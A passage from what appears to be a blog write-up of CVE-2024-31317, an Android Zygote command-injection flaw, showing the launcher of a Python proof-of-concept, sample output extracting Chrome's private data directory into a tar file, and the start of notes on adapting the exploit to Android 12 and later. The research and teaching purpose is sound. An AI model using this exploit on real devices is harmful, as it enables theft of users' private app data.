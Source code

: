 ### Launch the exploit
Finally, we need to implement the part in which a user tells the exploit which application wants to extract.

```
{% highlight python linenos %}
import sys

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print(f"usage: python {sys.argv[0]} [app to extract]")
        sys.exit(0)
    app = sys.argv[1]

    print("-> Trying to exploit CVE-2024-31317 (Zygote command injection).")
    extract_app_dir(app)
{% endhighlight %}
```

### Putting it all together

If we put all the pieces of code found in this section together we will get a working exploit that extracts the directory of the application we tell it to. The output for `com.android.chrome` would look like this and we can check that the resulting `.tar` file contains all of the files in the directory `/data/data/com.android.chrome`:

```bash
$ python poc_1_wu.py com.android.chrome  
-> Trying to exploit CVE-2024-31317 (Zygote command injection).
-> Extract /data/data/com.android.chrome/ to com.android.chrome.tar
-> Done extracting. Check com.android.chrome.tar
$ tar tf com.android.chrome.tar  
data/data/com.android.chrome/
data/data/com.android.chrome/cache/
data/data/com.android.chrome/cache/Crashpad/
data/data/com.android.chrome/cache/Crashpad/new/
.... many files
.... many files
.... many files
.... many more files
$
```
&nbsp;
LOL, PWND!  
But... so far our exploit only works on Android 11. Let's see what we need to do to make it work on Android 12, 13 and 14.

## -[ 0x08 Android > 11 ]-


Since Android 12, **Zygote** interprets commands differently. In addition to changes in the way they are processed, it introduces the `NativeCommandBuffer` class, which is in charge of handling the raw data. `NativeCommandBuffer` reads what *system server* sends, but does not pass the whole block to the function that processes the command: it cuts the *buffer* right where it ends. That is, if a command declares 8 arguments, it will read the number 8 and then eight more lines; that is what it delivers for execution and discards the rest. It then reads from the *socket* again and repeats the cycle.
